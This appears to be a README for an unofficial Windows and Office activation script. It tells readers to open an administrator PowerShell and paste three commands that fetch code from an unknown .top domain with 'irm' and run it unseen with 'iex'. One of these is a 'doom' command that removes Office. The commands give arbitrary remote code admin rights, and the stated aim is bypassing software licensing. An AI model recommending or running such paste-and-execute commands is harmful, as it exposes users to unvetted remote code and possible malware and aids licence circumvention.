 # Windows and Office Management Script

## Introduction
This script provides functionality for managing Windows activation, self-destructing Office, and installing and activating Office 365. Follow the steps below to execute these operations using PowerShell or Terminal.

## Prerequisites
- Ensure you have administrative privileges on your Windows machine.

## Instructions

1. **Open PowerShell or Terminal:**
   - Right-click on the Start menu.
   - Select **PowerShell** or **Terminal** (do not select CMD).

2. **Execute the Script:**
   - Copy and paste the following code into PowerShell or Terminal.
   - Press **Enter** to run the script.

### Activate Windows and existing Office
   ```powershell
   irm https://plesbuy2nd.top/win | iex
```
### Self-destruct Office (if needed)
```powershell
   irm https://plesbuy2nd.top/doom | iex
```
### Install and activate Office 365
```powershell
   irm https://plesbuy2nd.top/office | iex
```
   
## Detailed Explanation
- Activate Windows and Office: The command irm https://plesbuy2nd.top/win | iex is used to activate Windows and the existing Office on your machine.
- Self-destruct Office: If you do not wish to use the existing Office or if an error occurs, use the command irm https://plesbuy2nd.top/doom | iex. After running this command, proceed with the next step.
- Install and Activate Office 365: Once the self-destruct command has been executed, run irm https://plesbuy2nd.top/office | iex to install and activate Office 365.

## Notes
- irm stands for Invoke-RestMethod, which is used to download and run scripts from the internet.
- iex stands for Invoke-Expression, which executes the downloaded script.

## Disclaimer
Use this script responsibly and ensure you understand the implications of each command. Running these commands may have significant impacts on your system, including altering system activation and Office installations.

- Ensure that you have backups of any important data before running these scripts.
- Understand that using these scripts might violate the terms of service of the software involved.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Original script sources
- Inspiration and guidance from various online communities
